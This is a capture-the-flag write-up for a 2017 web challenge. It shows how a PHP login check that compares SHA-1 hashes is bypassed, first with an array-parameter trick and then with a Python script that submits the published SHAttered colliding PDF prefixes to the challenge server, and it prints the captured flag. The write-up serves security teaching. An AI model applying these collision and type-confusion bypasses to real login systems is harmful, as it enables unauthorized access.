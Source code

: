 # Prudentialv2, Cloud, 50pts

## Problem

![challenge]
(challenge.png)

## Solution

Website contains simple HTML form with two standard fields for username and password. ```index.txt``` (see prudentialv2.txt in this repo) provides source code of both server PHP and client HTML part.


![Prudentialv2]
(prudentialv2.png)


It was kinda 'déjà vu' for me. As description mentioned __Prudential__ challenge from two years earlier, I immediately went to my CTF writeups repository and found this one (Boston Key Party 2015):

https://github.com/bl4de/ctf/blob/master/2015/BostonKeyPartyCTF_2015/Prudential.md

Quick retrospective: in 2015, we have to break two __sha1()__ hashes equality checking, and it was quite easy:

```php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        print 'Your password can not be your name.';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        print '<p class="alert">Invalid password.</p>';
}
```
Solution was simple: wrong type of argument passed to __sha1()__ causes condition to fail and we get the flag:

```
http://52.10.107.64:8001/?name[]=a&password[]=b

Warning: sha1() expects parameter 1 to be string, array given in (...)ctf/BKPCTF2015/test.php on line 14

Warning: sha1() expects parameter 1 to be string, array given in (...)ctf/BKPCTF2015/test.php on line 14

Flag: [here goes the flag]

```


This year however, __things were complicated a bit__:

```php

if (isset($_GET['name']) and isset($_GET['password'])) {
    $name = (string)$_GET['name'];
    $password = (string)$_GET['password'];

    if ($name == $password) {
        print 'Your password can not be your name.';
    } else if (sha1($name) === sha1($password)) {
      die('Flag: '.$flag);
    } else {
        print '<p class="alert">Invalid password.</p>';
    }
}
```

Did you spot the difference?

Both arguments passed via ```$_GET``` are now cast to ```string``` type and trick with arrays did not work anymore (an array cast to string in PHP becomes a string ```Array``` itself, so both values from 2015 solution were equal this time and 'Your password can not be your name' appears on the screen)


SHA1 collision revealed by Google on Thursday, 23rd of February 2017 seems to be correct solution. Something what could make this:

```
sha1($name) === sha1($password)
```

to return __true__.


![SHA1 warning :)]
(sha1.jpg)

## SHA1 collision in practice

There are two files in this repository: sha1\_1.html and sha1\_2.html.
They both contain PDF files.

Here's the first one:

```html
%PDF-1.3
%����


1 0 obj
<</Width 2 0 R/Height 3 0 R/Type 4 0 R/Subtype 5 0 R/Filter 6 0 R/ColorSpace 7 0 R/Length 8 0 R/BitsPerComponent 8>>
stream
����$SHA-1 is dead!!!!!�/�	#9u�9���<L����Fܓ��~;���V
                                                         E�gֈ��K�Ly�+=��m�i	�kE�S
�߷`8�rr/�r�I�F�0W�����.�+�5B��-���*3.��5�M�,��t�
                                                 x0Z!Vda0��`kп?�ͨF)�<html>
<script language=javascript type="text/javascript">
<!-- @arw -->

var h = document.getElementsByTagName("HTML")[0].innerHTML.charCodeAt(102).toString(16);
if (h == '73') {
    document.body.innerHTML = "<STYLE>body{background-color:RED;} h1{font-size:500%;}</STYLE><H1>&#x1f648;</H1>";
} else {
    document.body.innerHTML = "<STYLE>body{background-color:BLUE;} h1{font-size:500%;}</STYLE><H1>&#x1f649;</H1>";
}

</script>
```

and here's the second one:

```html
%PDF-1.3
%����


1 0 obj
<</Width 2 0 R/Height 3 0 R/Type 4 0 R/Subtype 5 0 R/Filter 6 0 R/ColorSpace 7 0 R/Length 8 0 R/BitsPerComponent 8>>
stream
����$SHA-1 is dead!!!!!�/�	#9u�9���<L����sFܑf�~���!�V��g̨��[�Ly
���dy                                                             +=��m��	��E�O&�߳�8�j�/�r�E��F�<W���U.�+�1���7���3.ߓ�5�M�
     x,v!V`�0���kЯ?�ͤ�F)�<html>
<script language=javascript type="text/javascript">
<!-- @arw -->

var h = document.getElementsByTagName("HTML")[0].innerHTML.charCodeAt(102).toString(16);
if (h == '73') {
    document.body.innerHTML = "<STYLE>body{background-color:RED;} h1{font-size:500%;}</STYLE><H1>&#x1f648;</H1>";
} else {
    document.body.innerHTML = "<STYLE>body{background-color:BLUE;} h1{font-size:500%;}</STYLE><H1>&#x1f649;</H1>";
}

</script>
```

If you'll compare them, they differ. If you'll try to open them in the browser, you'll see two different images.

But when you'll calculate their SHA1 checksums, you'll be surprised:

```
bl4de:~/hacking/ctf/2017/BostonKeyParty_2017/Prudentialv2 $ shasum sha1_1.html
ba97502d759d58f91ed212d7c981e0cfdfb70eef  sha1_1.html
bl4de:~/hacking/ctf/2017/BostonKeyParty_2017/Prudentialv2 $ shasum sha1_2.html
ba97502d759d58f91ed212d7c981e0cfdfb70eef  sha1_2.html
bl4de:~/hacking/ctf/2017/BostonKeyParty_2017/Prudentialv2 $
```

All I had to do was to create exploit, which used the content of first file as value for ```name``` and second one as ```password```.


```Python
#!/usr/bin/env python
import requests

# this is copy/paste from Hex editor - two different files with the same SHA1 checksum
name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

print '[+] create URL decoded strings to send as GET parameters [name] and [password]...'
name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

print '[+] sending request to http://54.202.82.13/?name=[name]&password=[password]'

u = 'http://54.202.82.13/?name={}&password={}'.format(namestr, passwordstr)

resp = requests.get(u, headers={
    'Host': '54.202.82.13'
})

print '[+] read FLAG from response...\n\n'
print resp.content

```

I've run it and it worked like a charm:


```
bl4de:~/hacking/ctf/2017/BostonKeyParty_2017/Prudentialv2 $ ./prudential.py
[+] create URL decoded strings to send as GET parameters [name] and [password]...
[+] sending request to http://54.202.82.13/?name=[name]&password=[password]
[+] read FLAG from response...


<html>
<head>
	<title>level1</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

Flag: FLAG{AfterThursdayWeHadToReduceThePointValue}
bl4de:~/hacking/ctf/2017/BostonKeyParty_2017/Prudentialv2 $
```


__FLAG{AfterThursdayWeHadToReduceThePointValue}__


## Links

#### SHA1 collision by Google:

https://security.googleblog.com/2017/02/announcing-first-sha1-collision.html					
https://shattered.io					
https://shattered.io/static/shattered.pdf
